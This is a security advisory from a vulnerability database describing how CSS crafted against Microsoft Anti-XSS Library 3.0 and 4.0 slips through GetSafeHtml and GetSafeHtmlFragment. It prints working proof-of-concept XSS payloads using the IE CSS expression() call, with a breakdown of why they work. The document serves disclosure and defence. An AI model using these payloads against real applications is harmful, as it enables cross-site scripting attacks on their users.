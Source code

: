 ```yaml
---
layout: vuln
credit:
    - adico
timeline:
    - type: 'add'
      date: '2017-03-01'
    - type: 'release'
      date: '2012-07-10' 
alephid: ALEPH-2012004
date: '2012-01-19'
title: 'Microsoft Anti-XSS Library Bypass'
severity: moderate
product:
    - Microsoft Anti-XSS Library

mitigation: 
    - 3.0
    - 4.0
references:
    - src: MS12-007
      url: http://technet.microsoft.com/en-us/security/bulletin/ms12-007
---
```

Microsoft Anti-XSS Library 3.0 and 4.0 are vulnerable to an attack in which an attacker is able to create a specially formed CSS, that after passing through the GetSafeHTML or GetSafeHTMLFragment methods, contains an expression that triggers a JavaScript call in Internet Explorer.

The following ASP.NET code demonstrates the vulnerability:

```csharp
string data = Microsoft.Security.Application.Sanitizer.GetSafeHtml("<html>a<style><!--div{font-family:Foo,Bar\\,'a\\a';font-family:';color:expression(alert(1));y'}--></style><div>b</div></html>");

string data = Microsoft.Security.Application.Sanitizer.GetSafeHtmlFragment("<div style=\"font-family:Foo,Bar\\,'a\\a';font-family:';color:expression(alert(1));y'\">aaa</div>");
```

Explanation:
The string value can be broken down as follows:
```css
div{
  font-family:Foo,Bar\,'a\a';
  font-family:';color:expression(alert(1));y'
}
```
A bug in the Anti-XSS library causes the closing apostrophe in the first CSS rule to be dropped. Because of the string not being properly terminated, Internet Explorer now renders this CSS in a different way, which triggers a javascript call:

```css
div{

font-family:Foo,Bar\,'a\a;font-family:';
color:expression(alert(1));

y'

}
```
Due to this weakness, every application that relies on either GetSafeHTML or GetSafeHtmlFragment to sanitize user supplied data is vulnerable to XSS.
